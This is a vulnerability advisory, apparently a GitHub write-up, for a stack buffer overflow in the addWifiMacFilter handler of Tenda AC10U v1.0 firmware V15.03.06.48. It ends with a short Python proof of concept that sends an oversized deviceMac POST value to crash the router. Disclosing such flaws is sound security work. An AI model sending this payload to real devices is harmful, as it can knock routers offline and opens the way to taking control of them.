 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 V15.03.06.48 firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `device_mac` variable receives the `deviceMac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `deviceMac` can trigger this security vulnerability.

![image-20240309185842004](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309185842004.png)

![image-20240309185809016](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309185809016.png)

![image-20240309185820678](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309185820678.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": payload, "deviceId":1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313183417783](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313183417783.png)